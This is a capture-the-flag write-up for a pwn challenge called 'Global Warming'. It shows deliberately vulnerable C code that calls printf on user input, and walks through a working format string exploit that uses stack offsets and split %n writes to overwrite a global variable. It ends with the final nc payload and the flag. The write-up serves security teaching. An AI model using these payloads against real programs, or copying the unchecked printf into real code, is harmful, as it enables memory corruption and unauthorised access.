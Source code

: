 # Global Warming

Author: [AJ1479](https://github.com/AJ1479)

## Description

String format exploit to overwrite global variable.

## Requirements

- Basic Knowledge of format string exploit.
- Docker: [Dockerfile](./Dockerfile)

## Sources

- [global-warming](./bin/global-warming): Binary

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int admin = 0;

void login(char username[10], char *pass)
{

	printf(pass);
	if (admin != 0xb4dbabe3)
	{
		system("cat flag.txt");
	}
	else
	{
		printf("You cannot login as admin.");
	}
}

int main()
{
	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	char pass[1024];
	fgets(pass, sizeof(pass), stdin);

	login("User", pass);
}
```

```
Greta Thunberg 1 Administration 0
```

## Exploit

The program has a global variable `admin`, the value of which needs to be changed. Looking at the program we see a printf statement, printing our input in `fgets`. Here, we need to use the format string exploit. We use `%x` as the format string input which returns values from the stack. We're also going to use the `%n` which writes the number of characters before the `%n` to the address just above(before) it in the stack. Also, memory addresses of global variables are stored in can be easily read from the `objdump` of the binary.
<br />

Using `objdump -t` you can get the address of `admin`.

```bash
$ objdump -t ./global-warming | grep admin
0804c02c g     O .bss   00000004              admin
```

Now, we need to write stuff to this location. Let's print some arbitrary value with a couple of `%x`s and see where it lands on the stack.

```bash
$ python2 -c "print 'AAAABBBBCCCC' + '%x ' * 30" | ./global-warming
AAAABBBBCCCCf7fc7a34 fbad2087 80491b2 f7f7ce24 804c000 ffd7d7a8 8049297 804a030 ffd7d3a0 f7f7d540 8049219 41414141 42424242 43434343 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 
You cannot login as admin.%  
```

You know that `AAAABBBBCCCC` is going to become `41414141 42424242 43434343` in the binary, since `A` in hex is 41. You find that in the 12th position. You can now make it print just the value in the 12th position on the stack using `%12$x`.

```bash
$ python2 -c "print 'AAAABBBBCCCC' + '%12\$x ' * 30" | ./global-warming
AAAABBBBCCCC41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 
You cannot login as admin.% 
```

That works! Now we need to replace `AAAA` with the address of `admin`. We can test this directly on GDB, set a breakpoint after the `printf` call. Then we'll use `%12$n` to write to the address of `admin`. (Read up about `%n`). First we set up a breakpoint and define a hook-stop.

```bash
Breakpoint 1 at 0x80491c3
gdb-peda$ define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/x 0x0804c02c
>end
```

Now, we can run the program with the following input:

```bash
gdb-peda$ r < <(python2 -c "print '\x2c\xc0\x04\x08' + '%12\$x ' + '%12\$n'")Starting program: /home/roerohan/Documents/Repos/CSI/ctf-challenges/pwn/Global Warming/bin/global-warming < <(python2 -c "print '\x2c\xc0\x04\x08' + '%12\$x ' + '%12\$n'")
,804c02c 
0x804c02c <admin>:      0x0000000c
```

So, as you can see, this writes a really small value to the `admin` variable. Nice! Now we just need to add a huge padding, and  we can write the required value into that variable. Let's find out the padding you would need to include.

```python
>>> 0xb4dbabe3 - 0xc
3034295255
```

This number is HUGE, will take ages to print these many characters. We can instead make it possible with two smaller writes. First write the last 2 bits, then shift the address by 2 bits and write to that location. Smart. So we can first store the address (after adding 2) on the stack as well, so that we can refer to it using the `%13$n` syntax.

```bash
gdb-peda$ r < <(python2 -c "print '\x2c\xc0\x04\x08' + '\x2e\xc0\x04\x08' + '%12\$x ' + '%12\$n'")
Starting program: /home/roerohan/Documents/Repos/CSI/ctf-challenges/pwn/Global Warming/bin/global-warming < <(python2 -c "print '\x2c\xc0\x04\x08' + '\x2e\xc0\x04\x08' + '%12\$x ' + '%12\$n'")
,.804c02c 
0x804c02c <admin>:      0x00000010
```

Cool! Now we have both the values on the stack. We can reference `0x0804c02e` by doing `%13$x` and `0x0804c02e` by doing `%12$x`. Let's write to the first half of `admin` first. You can see that `0x00000010` is already written. Which means we need to write `0xabe3 - 10 + 1` characters to make it `0000abe3`. Let's test that!

```bash
gdb-peda$ r < <(python2 -c "print '\x2c\xc0\x04\x08' + '\x2e\xc0\x04\x08' + '%12\$43994x ' + '%12\$n'")
Starting program: /home/roerohan/Documents/Repos/CSI/ctf-challenges/pwn/Global Warming/bin/global-warming < <(python2 -c "print '\x2c\xc0\x04\x08' + '\x2e\xc0\x04\x08' + '%12\$43994x ' + '%12\$n'")
,. 
...
804c02c 
0x804c02c <admin>:      0x0000abe3                                       
```

That worked! Now let's see what happens when we write to `%13\$n`.

```bash
gdb-peda$ r < <(python2 -c "print '\x2c\xc0\x04\x08' + '\x2e\xc0\x04\x08' + '%12\$43994x ' + '%12\$n' + '%13\$x' + '%13\$n'")

804c02c 804c02e
0x804c02c <admin>:      0xabeaabe3
```

So, it writes `abea` in the first half. We need it to be `b4db`. So we need to write atleast `b4db - 0xabea` characters.

```bash
gdb-peda$ r < <(python2 -c "print '\x2c\xc0\x04\x08' + '\x2e\xc0\x04\x08' + '%12\$43994x ' + '%12\$n' + '%13\$2289x' + '%13\$n'")
...
0x804c02c <admin>:      0xb4d4abe3
```

Close! Now just adjust the offset to make it `b4db`. You get the offset as `2295`characters. This is going to be our final payload.

```bash
$ (python2 -c "print '\x2c\xc0\x04\x08' +  '\x2e\xc0\x04\x08' + '%12\$43994x ' + '%12\$n ' + '%13\$2295x' + '%13\$n'"; cat) | nc chall.csivit.com 30023
...
...
804c02e
csictf{n0_5tr1ng5_@tt@ch3d}
```

The flag is:

```
csictf{n0_5tr1ng5_@tt@ch3d}
```